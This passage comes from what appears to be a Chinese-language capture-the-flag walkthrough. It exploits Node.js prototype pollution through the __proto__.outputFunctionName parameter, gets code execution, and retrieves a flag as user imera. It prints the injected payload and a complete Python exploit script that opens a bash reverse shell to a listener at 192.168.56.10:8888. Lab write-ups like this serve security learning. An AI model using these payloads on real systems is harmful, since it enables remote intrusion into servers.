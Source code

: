         本菜鸡没看懂，要学习`Node.js`污染原型链，本菜鸡没学过，大概知道要怎么利用
        
        大概就是将数据包里的的`name`改为
        
        ```
        __proto__.outputFunctionName
        ```
        
        然后将值改为：
        
        ```
        x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/ip/prot 0>&1"');x
        ```
        
        当我们再次发起请求时，便会在指定的主机反弹回来一个`shell`，从而达到RCE的目的
        
        其实在上面的链接也给出了利用脚本
        
        ```python
        import requests
        
        cmd = 'bash -c "bash -i &> /dev/tcp/192.168.56.10/8888 0>&1"'
        
        # pollute
        requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
            None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
        
        # execute command
        requests.get('http://127.0.0.1:8080')
        ```
        
        我们将脚本改名为`shell.py`然后上传到靶机进行利用
        
    - 存放在靶机的`/tmp`目录里，同时`kali`监听`8888`端口，执行脚本（使用`python3`执行）
        
        可以看到已经反弹到`8888`端口了
        
        ![image.png](image%20103.png)
        
        用户是`imera`
        
4. 在该用户家目录下存在`flag`文件
    